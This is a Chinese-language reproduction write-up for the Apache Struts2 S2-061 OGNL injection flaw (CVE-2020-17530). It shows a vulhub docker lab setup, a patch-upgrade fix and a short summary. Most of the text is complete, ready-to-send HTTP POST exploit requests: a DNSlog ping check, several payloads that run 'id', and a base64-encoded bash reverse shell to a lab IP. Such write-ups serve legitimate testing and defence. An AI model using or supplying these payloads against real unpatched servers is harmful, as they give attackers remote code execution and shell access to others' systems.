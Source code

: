 ###   Struts2-061

### 0x00 漏洞简介

Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061  Struts  远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大。

### 0x01 漏洞描述

Struts2 会对某些标签属性(比如 `id`，其他属性有待寻找) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 `x`  的值用户可控时，用户再传入一个 `%{payload}` 即可造成OGNL表达式执行。S2-061是对S2-059沙盒进行的绕过。

### 0x02 漏洞影响

struts 2.0.0 - struts 2.5.25

### 0x03 漏洞复现

**一.环境搭建**

1.docker环境地址：

https://github.com/vulhub/vulhub/tree/master/struts2/s2-061

docker-compose up -d #启动docker环境

```
2.访问目标地址
http://192.168.1.14:8080/index.action
二、漏洞利用
1.DNSlog验证漏洞
```

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 853

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping    paqmgs.dnslog.cn")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

DNGlog记录可发现命令成功执行

![img](Struts2-061.assets/16273646516676219.jpg)

2.通过构造post包执行exp 命令执行id

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

burp提交后，在响应页面发现命令回显可，说明ID命令执行成功

![img](Struts2-061.assets/1627364651974858.jpg)

或者

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{

(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +

(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 

(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))

}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](Struts2-061.assets/162736465230786.jpg)

3.反弹shell命令

通过以下在线地址将bash反弹命令进行进行编码转换

http://www.jackson-t.ca/runtime-exec-payloads.html

![img](Struts2-061.assets/1627364652711075.jpg)

提交以下poc:

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMjIyMiAgIDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](Struts2-061.assets/1627364653059377.jpg)

可以看到成功反弹shell:

![img](Struts2-061.assets/16273646532682319.jpg)

### 0x04 漏洞修复

避免对不受信任的用户输入使用强制OGNL评估，或/和升级到2.5.26版，可修复该漏洞。腾讯安全专家建议受影响的用户将Apache Struts框架升级至最新版本

临时修复，升级到 Struts 2.5.26 版本，下载地址为：

https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26

### 0x05 漏洞总结

此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。



来源网络
https://www.cnblogs.com/backlion/p/14122528.html